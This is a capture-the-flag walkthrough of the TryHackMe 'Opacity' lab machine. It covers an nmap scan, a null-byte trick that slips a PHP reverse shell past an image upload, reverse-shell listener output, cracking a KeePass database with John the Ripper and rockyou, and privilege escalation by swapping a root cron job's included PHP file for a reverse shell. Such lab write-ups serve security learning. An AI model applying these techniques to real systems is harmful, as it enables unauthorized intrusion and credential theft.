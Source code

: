 ```yaml
---
categories: [TryHackMe]
tags: [File Upload, Password Bruteforce, PrivEsc, keepass]
img_path: /Vulnhub-Files/img/
image:
  path: Opacity/Untitled.png
  alt: TryHackMe Machine 🗝️
---
```


TryHackMe Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#File Upload</kbd>&nbsp;&nbsp;<kbd>#Password Bruteforce</kbd>&nbsp;&nbsp;<kbd>#keepass</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.115.151
Nmap scan report for 10.10.115.151
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-11-17T08:59:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 and found a login page →

![Untitled](Opacity/Untitled%201.png)

While Enumeration I found a directory called `/cloud` and that contains an image uploading page that will be helpfull to upload my RFI (Remote File Inclusion) Payload .

![Untitled](Opacity/Untitled%202.png)

Now I uploaded the reverse shell file through null byte injection in my reverse shell file `#00` 

from `shell.php` to `shell.php#00.png` that will make a image file for the file uploader functionality and the #00 will nullified the input after that so it will be forworded as shell.php as a output and I got as a result a reverse shell →

![Untitled](Opacity/Untitled%203.png)

Now I forworded all the requests and at last loaded this URL :

`http://10.10.33.169/cloud/storage.php`

![Untitled](Opacity/Untitled%204.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.33.169] 37706
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:57:56 up 6 min,  0 users,  load average: 0.09, 1.10, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can not access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

while enumeration I got a file named as dataset.kdbx and I transfered that file to attackers machine →

```bash
www-data@opacity:/opt$ ls -al
total 12
drwxr-xr-x  2 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
-rwxrwxr-x  1 sysadmin sysadmin 1566 Jul  8  2022 dataset.kdbx
www-data@opacity:/opt$
```

Now I used `JohnTheRipper` Tool to crack its password so that I can open it →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ file dataset.kdbx 
dataset.kdbx: Keepass password database 2.x KDBX
                                                               
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ keepass2john dataset.kdbx > hashes.txt
                                                               
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --fork=4
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1 1g 0:00:00:19 DONE (2023-11-17 15:42) 0.05081g/s 11.07p/s 11.07c/s 11.07C/s 741852963
```

Now Lets open this file in `Keepass2` Application →

![Untitled](Opacity/Untitled%205.png)

I got the password through `Copy Passowrd` option →

![Untitled](Opacity/Untitled%206.png)

Lets Login as sysadmimn with its password →

```bash
www-data@opacity:/opt$ su sysadmin
Password: 
sysadmin@opacity:/opt$ whoami
sysadmin
sysadmin@opacity:/opt$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),24(cdrom),30(dip),46(plugdev)
sysadmin@opacity:/opt$ cd ~
sysadmin@opacity:~$ ls -al
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22  2023 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful
sysadmin@opacity:~$
```

Now I noticed a directory named as scripts having root permission must be running as a cronjob so lets see what it is →

```bash
sysadmin@opacity:~$ cd scripts
sysadmin@opacity:~/scripts$ ls
lib  script.php
sysadmin@opacity:~/scripts$ ls -al
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 7 sysadmin sysadmin 4096 Nov 17 10:21 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
sysadmin@opacity:~/scripts$ cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
sysadmin@opacity:~/scripts$ 
```

It is besically having the backup functionality and File schedule removal for image upload , here in backup part it is executing `backup.inc.php` file lets see I can replace it with my reverse shell payload or not →

```bash
sysadmin@opacity:~/scripts/lib$ mv backup.inc.php backup.inc.php.bak
sysadmin@opacity:~/scripts/lib$ nano backup.inc.php
sysadmin@opacity:~/scripts/lib$ chmod +x backup.inc.php
sysadmin@opacity:~/scripts/lib$
```

Now I have to attempt to do some image uploading on that `http://10.10.33.169/cloud`  that will trigger as a root user , and I will have a shell like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Opacity]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.33.169] 34656
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:29:01 up 37 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can not access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -al
total 40
drwx------  5 root root 4096 Feb 22  2023 .
drwxr-xr-x 19 root root 4096 Jul 26  2022 ..
lrwxrwxrwx  1 root root    9 Jul 26  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb 22  2023 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jul 26  2022 proof.txt
-rw-r--r--  1 root root   66 Feb 22  2023 .selected_editor
drwx------  3 root root 4096 Feb 22  2023 snap
drwx------  2 root root 4096 Jul 26  2022 .ssh
-rw-r--r--  1 root root  215 Feb 22  2023 .wget-hsts
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:13:23:56:17:11 brd ff:ff:ff:ff:ff:ff
    inet 10.10.33.169/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3157sec preferred_lft 3157sec
    inet6 fe80::13:23ff:fe56:1711/64 scope link 
       valid_lft forever preferred_lft forever
# hostname
opacity
#
```

I am root now !!